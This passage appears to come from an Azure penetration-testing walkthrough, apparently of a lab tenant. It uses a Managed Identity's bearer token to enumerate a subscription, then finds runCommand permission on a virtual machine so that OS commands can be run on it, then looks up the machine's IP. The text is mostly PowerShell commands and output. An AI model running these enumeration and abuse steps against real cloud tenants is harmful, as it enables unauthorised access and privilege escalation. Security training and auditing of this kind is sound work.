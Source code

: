 ```powershell
}
(Invoke-RestMethod @RequestParams).value
```

```powershell
id                   : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768
authorizationSource  : RoleBased
managedByTenants     : {}
subscriptionId       : b413826f-108d-4049-8c11-d52d5d388768
tenantId             : 2d50cb29-5f7b-48a4-87ce-fe75a941adb6
displayName          : DefCorp
state                : Enabled
subscriptionPolicies : @{locationPlacementId=Public_2014-09-01; quotaId=PayAsYouGo_2014-09-01; spendingLimit=Off}
```

- We can now list what actions are allowed to the Resource that the Managed Identity has access to.
```powershell
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

```powershell
actions                                               notActions
-------                                               ----------
{*/read}                                              {}
{Microsoft.Compute/virtualMachines/runCommand/action} {}
```

- The above indicates that the Managed Identity can run OS commands on `bkpadconnect`. To abuse that, since we cannot connect to the Azure Portal via credentials, we will do it through PowerShell. First we have to find the IP address of that VM.
```powershell
PS C:\Auditor> Get-AzVM -Name bkpadconnect -ResourceGroupName Engineering | select -ExpandProperty NetworkProfile

NetworkInterfaces                                                                                                                              NetworkApiVersion NetworkInterfaceConfigurations
-----------------                                                                                                                              ----------------- ------------------------------
{/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/networkInterfaces/bkpadconnect368}

PS C:\Auditor> Get-AzNetworkInterface -Name bkpadconnect368 | select -ExpandProperty IpConfigurations


Name                                  : ipconfig1
Id                                    : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Engineering/providers/Microsoft.Network/networkInterfaces/bkpadconnect368/ipConfigurations/ipconfig1
Etag                                  : W/"dcd99715-58b6-43d1-8647-6b83c445c494"
Primary                               : True
ProvisioningState                     : Succeeded
PrivateIpAddress                      : 10.0.0.4
PrivateIpAddressVersion               : IPv4
PrivateIpAllocationMethod             : Dynamic
```